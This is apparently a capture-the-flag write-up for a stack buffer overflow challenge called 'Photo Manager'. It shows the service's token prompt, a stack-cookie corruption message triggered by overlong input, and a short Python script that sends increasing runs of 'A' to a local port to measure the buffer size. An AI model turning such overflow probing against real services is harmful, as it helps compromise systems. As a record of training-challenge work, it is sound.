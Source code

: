 # Exploitation 100 - Photo Manager

The following description is given for this challenge:

> We have recently been informed that a group of hackers exploited a vulnerability in a PC within another very secure network. Our operative says the hacker in charge took a snapshot of the password, which they stored in their secret hidden-away database.
> 
> Today we found a photo manager service running on the internet. This service can be linked to the hacker who retrieved the passwords. From the size of the photo manager we can see they stored lots of pictures, so we are hoping they stored the password on their photo manager too. Can you breach their photo manager and take a quick look?
> 
> Keep in mind that the flag is 32 characters long and you should disregard the last ‘1’.

Interfacing with the board provides the following:

```
[1] Login
[2] Memory management
1
Please authenticate yourself with your hardware token
Please insert token. (8 characters)
Token can only contain the characters [A-Z/a-z/0-9]

AAAAAAAA
Welcome AAAAAAAA
```

When providing a very long name an error message about a corrupt stack cookie appears:

```
Please authenticate yourself with your hardware token
Please insert token. (8 characters)
Token can only contain the characters [A-Z/a-z/0-9]

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Stack cookie corrupted.
```

So it appears that there is a buffer overflow in the reading of the token value. The next step is to find the size of the buffer and identify how many A's have to be sent to get the cookie corrupted message.

Some quick and dirty code to run the memory usage function and then find the number of A's to send to trigger the cookie corrupted message:

```
from sock import Sock
s = Sock('127.0.0.1',1235)
s.read_until('[2] Memory management\r\n')
s.send('2\r')
reply = s.read_until('[2] Memory management\r\n')
print reply.split('\r\n')[1]
for x in range(1, 128):
    s.send('1\r')
    r = s.read_until('Token can only contain the characters [A-Z/a-z/0-9]\r\n')
    s.send(('A' * x) + '\r')
    r = s.read_until('[2] Memory management\r\n')
    if 'cookie' in r:
        print x, "Cookie corrupted"
        exit()
```
